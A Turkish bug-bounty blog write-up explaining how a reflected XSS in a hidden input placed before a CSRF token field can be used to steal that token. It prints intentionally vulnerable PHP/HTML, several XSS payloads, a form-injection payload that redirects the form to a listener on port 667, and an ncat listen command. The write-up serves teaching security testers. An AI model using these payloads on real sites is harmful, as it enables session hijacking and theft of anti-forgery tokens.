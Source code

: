 ```yaml
---
title: 'TR \| Steal CSRF Tokens with simple XSS'
date: 2018-06-12
permalink: /posts/steal-csrf-tokens-with-simple-xss/
tags:
  - xss
  - hack
  - steal csrf tokens
  - csrf bypass
  - csrf
  - bugbounty
  - bug bounty
  - write-up
  - poc
  - vulnerability
excerpt: 'Steal CSRF Tokens with simple XSS'
---
```


Merhaba,
Ben Samet ŞAHİN. İki yıldan biraz uzun süredir *Bug Bounty* ile ve toplamda yaklaşık dört yıldır da *Web Uygulama Güvenliği* alanında çalışmalar yürütmekteyim. 

*Bug Hunterlar* olarak biz, Bug Bounty ile uğraşırken pek çok farklı sistem ve farklı güvenlik önlemleri görüyoruz. Bug Hunter olarak amacımız, güvenli (gözüken) sistemlerde (gerçek ve etkisi olan) açıklar bulup, onları şirketlere bildirmektir. 


Yaptığımız testlerde bulduğumuz aynı tür açıklar her zaman aynı potansiyel zarara (impact) sahip olmayabiliyor. 

Örneğin;
Kurbana otomatik olarak çıkış yaptıran CSRF açığı (Bu genellikle açık kapsamına bile girmez.) ile kurbana otomatik olarak email ve parola değişikliği yaptıran CSRF (*1) açığı elbette aynı zararı veremez.


  

Şimdi, bu yazının konusuna gelelim. Elimizde iki adet XSS (Cross Site Scripting) açığı ve HTML kaynak kodundaki bir *input* tagına yansımış CSRF tokenlerimiz (*2) var. 
  

## Normal XSS Açığı :  
Çirkin bir arama kutusu olduğunu, sitenin kaynak kodlarında CSRF Tokenlerin bulunduğunu ve *search* input'unun değerini *GET* isteğindeki *search* parametresinden aldığını görüyoruz. (*3)

```php
<?php 
$benCSRFtoken = "samet";
$printMD5 = md5($benCSRFtoken);
?>
```
```html	
<form>
<input type="hidden" name="CSRFtoken" value="<?php echo $printMD5 ?>">
<input type="text" name="search" value="<?php echo $_GET['search']; ?>">
<input type="submit" value="Submit">
</form>
```


Elimizde şu an için hiçbir açık yok fakat görüyoruz ki *search* parametresi hiçbir sanitizasyon (*4) işlemi yapılmamış. Bu durumda diyebiliriz ki buradan bir XSS açığı çıkabilir. (*5) Açığımızı bulmamız için GET metoduyla search parametresine bir payload (*6) yazıyoruz ;
`"><h1>xss`  gönderdik ve kaynak kodunu inceledik : 

<img src="/images/Blog-1.png">


Evet, başarılı bir şekilde valuenin tırnaklarını kapattık ve artık kendi HTML kodumuzu site üzerinde çalıştırabileceğimizi gördük. Şimdi XSS kanıtı için JavaScript kodunu çalıştırmamız gerekiyor. Bu seferki açık kodumuz ;
`"><script>alert(1)</script>` (*7) gönderdik ve kaynak kodunu inceledik :

<img src="/images/Blog-2.png">


XSS açığını kanıtlamış olduk. Bu normal bir XSS saldırısıydı ve HTML ve JavaScript kodu çalıştırmak dışında pek de bir şey yapamadık.


## Kritik XSS Açığı : 
Normal XSS açığında gördüğümüz sayfayla aynı işlemi yapmasına rağmen inputların sırasının farklı olduğu açıklı bir sayfa. İlk açıkta gönderdiğimiz açık kodlarının bu sitede de çalıştığını görebiliyoruz. 

```php
<?php 
$benCSRFtoken = "samet";
$printMD5 = md5($benCSRFtoken);
?>
```
```html
<form>
<input type="hidden" name="search" value="<?php echo $_GET['search']; ?>">	
<input type="hidden" name="CSRFtoken" value="<?php echo $printMD5 ?>">
<input type="submit" value="Submit">
</form>
```



**Trick zamanı :**  
Örneklerle de gördüğümüz gibi iki tane XSS ve input taglarına yansıtılmış CSRF tokenlerini gördük. Eğer `<form>` tagı ve CSRF tokeninin yansıtılmış olduğu input tagının arasında XSS açığına sahipseniz, CSRF tokenlerini de çalabilirsiniz. Bu gerçek ve daha önce pek çok kez karşılaştığım bir senaryo ama Sadece Kritik XSS açığında işe yarar. Neden mi ?

- Çünkü HTML dilinde değişken tanımlayıp sonra kullanma gibi bir ihtimaliniz yoktur. Yani yukarıda bir CSRF Tokenli input varsa ve siz aşağıdaki tagda kod çalıştırabiliyorsanız, o CSRF Tokenine XSS açığı ile erişemezsiniz. (*8)

-  Yukarıda da değindiğim gibi `<form>` tagları arasında`</form>` ve CSRF Token'in yansıtılmış olduğu `<input>` tagının üstünde olmanız gerekmektedir. Eğer bu ikisine de sahipseniz CSRF tokenlerini rahatlıkla çalabilirsiniz.



**O zaman exploit edelim :**  
Öncelikle XSS açığıyla CSRF tokenlerini çalabilmek için güzel bir payload yazmamız gerekiyor. Paylaodımızın  mantığı şu olmalı : 
- Daha önce açılmış olan formu kapat : `"></form>`
- Yeni bir form aç ve action (*9) eventine dinlediğin ip ve port'u gir (*10) : `"></form><form method="GET" action="http://127.0.0.1:667/bla.html">`
- Ncat ile seçili portu (667) dinle
- Kullanıcıyı butona tıklat ve loglardan CSRF Token'ini çek.


Exploit videosu burada :
<video width="500" controls>
  <source src="/files/Blog-1.webm" type="video/mp4">
</video>




**SONUÇ :**  
Değerli içerik taşıyan input tagının ve açıklı input tagının sırası bile bir açığın zararını arttıracak kadar önemli olabiliyor. Bu yüzden manuel testler yapmanız ve bunun gibi trickleri deneyerek öğrenmeniz çok önemli. Deneyebilmeniz için Github'a XSS açıklı 2 dosyayı da koyuyorum. Kendi tricklerimi ve işinize yarayabilecek trickleri paylaştığım Twitter ve LinkedIn hesaplarımdan bana ulaşabilirsiniz. 


[Github](https://github.com/sametsahinnet/XSS-Blog-Post)

  ----

***1** :
Bu açık hakkında yazımı okuyabilirsiniz : https://sametsahin.net/posts/account-takeover-via-reset-password/

***2** :
CSRF açığının oluşmasını engellemek için her istek veya kullanıcıya göre değişen uzun ve rastgele değerdir. Bu tokenlerin olmadığı durumlarda CSRF açığı meydana gelebilir.

***3** :
Bu kısım temel Web bilgisine dayandığı için Google'dan bulabilirsiniz.

***4** :
Sanitizasyon, diğer adıyla filtreleme işlemleri, kullanıcıdan direkt olarak alınan girdilerin, açıklara dönüşmesini engellemek için kullanılan güvenli kod yazma tekniğidir. Pek çok açık gerekli sanitizasyon işleminin yapılmaması veya yeterince kapsamlı olmamasından kaynaklanır.

***5** :
Elbette XSS çıkar bu doğru. Yanlış olan oradan sadece XSS çıkacağı düşüncesidir. Özellikle bu işlere yeni başladıysanız sadece bir açık bulmaya çalışırsınız. Yapmanız gereken bir açıktan en fazla ne kadar ileriye gidebileceğinizi denemektir. Herkes XSS bulabilir ama kolay kolay kimse XSS ile CSRF tokenlerinin de çalmayı denemez. 

***6** :
Payload, açıkları bulmak ve sömürmek için hacker tarafından yazılan kodlardır. Payloadlara, açık kodları diyebiliriz. Ve payloadlar yeşil renkle ekrandan hızlıca akıp gitmez :)

***7** :
Normalde böyle bir payload çok az yerde işe çalışır. Payloadlarınızın kalitesini arttırmanız için elle yazmanızı ve her tuşun kaynak kodunda yansımış olduğu yerlere dikkatlice bakınız. Yani her deneyişinizde websitenin yanıtını kontrol ediniz.

***8** :
Hayır, erişebilirsiniz. Ama bunun ihtimali çok düşüktür. JavaScript kullanarak input içinde yer alan değerleri ekrana basabilirsiniz. Fakat bunun uzun ve içinde `<script>` tagının kullanılmış olduğu bir payload yazmak zorundasınız. Ve ödül verecek kadar büyük tüm şirketler o `<script>` tagını gördüğü anda sizi engeller. Bu yüzden bulsanız bulsanız küçük yerlerde bulursunuz ve o küçük yerler de küçük olduğu için CSRF token zaten kullanmamış olu ;)

***9** :
HTML'de form tagı açıldığı zaman bir de onu kapatmanız gerekir. Biz kapanmış form (`</form>`) tagı enjekte ettiğimiz zaman görüntü şu şekilde olur : 


```html
<form>
<input type="hidden" name="search" value="query"></form>">
<input type="hidden" name="CSRFtoken" value="2e47d7f81970b3bb09d249a7de385dbc">
<input type="submit" value="Submit">
</form>
```

Enjekte ettiğimiz form tagı ile 1 tamamen kapatılmış ve bir de açılış tagı eksik olan `</form>` tagımız olur. O zaman açılış tagımızı payloadımıza ekliyoruz ve son durumda iki adet form'umuz oluyor : 

```html
<form>
<input type="hidden" name="search" value="query">
</form>

ve

<form>">
<input type="hidden" name="CSRFtoken" value="2e47d7f81970b3bb09d249a7de385dbc">
<input type="submit" value="Submit">
</form>
```

Baştan beri amacımız CSRF Tokeni içeren form'u kontrol edebilmekti. Action kısmını değiştirdiğimiz anda artık CSRF Tokeni içeren her istek bizim loglarımıza düşecek ve oradan okuyabileceğiz.

***10** :
CSRF Token'ine loglardan erişebilmemiz için logların bizde olması gerekir. Bu yüzden kendi local'imizde rastgele bir port'u dinliyoruz. Bu işlemi `ncat` ile yapabilirsiniz : 

`ncat -nlvp 667`





Değerli zamanınız için teşekkür ederim.  
Bol açıklar :)